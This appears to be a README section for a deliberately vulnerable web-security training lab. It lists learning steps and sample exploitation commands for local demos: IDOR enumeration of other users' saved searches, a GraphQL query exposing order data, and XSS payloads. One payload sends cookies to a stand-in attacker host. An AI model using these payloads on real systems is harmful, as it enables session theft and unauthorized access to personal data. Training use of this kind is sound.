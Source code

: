### For Security Training

1. **Start with Documentation**: Read the security documentation for each demo
2. **Understand the Vulnerabilities**: Review the vulnerability explanations and impact
3. **Practice Exploitation**: Follow the step-by-step exploitation guides
4. **Test Different Payloads**: Experiment with various attack vectors
5. **Learn Mitigation**: Study the recommended fixes and secure coding practices

### For Penetration Testing Practice

1. **Reconnaissance**: Explore the applications to understand functionality
2. **Vulnerability Discovery**: Use manual and automated testing techniques
3. **Exploitation**: Develop and test proof-of-concept exploits
4. **Documentation**: Practice writing vulnerability reports
5. **Remediation**: Understand how to fix the identified issues

### Sample Exploitation Workflows

#### AutoFinder IDOR Exploitation
```bash
# 1. Create a saved search to get a search ID
curl -X POST "http://localhost:3000/demo1/search" \
  -H "Content-Type: application/json" \
  -d '{"make":"Toyota","saveName":"My Search"}'

# 2. Enumerate other users' searches
curl "http://localhost:3000/api/saved-searches/1"
curl "http://localhost:3000/api/saved-searches/2"
curl "http://localhost:3000/api/saved-searches/3"
```

#### ShopTracker GraphQL Exploitation
```bash
# GraphQL query to access any order
curl -X POST "http://localhost:3000/api/platform/sales" \
  -H "Content-Type: application/json" \
  -d '{
    "query": "{ order(number: \"R500160602\", zipcode: \"44\", guestToken: \"\") { email firstName lastName phone address1 lastFour } }"
  }'
```

#### XSS Demo Exploitation
```
# Basic XSS payload
<script>alert('XSS')</script>

# Cookie theft payload
<script>new Image().src='http://attacker.com/steal.php?c='+document.cookie</script>

# URL-based attack
http://localhost:3000/demo3?name=<script>alert('XSS')</script>
```
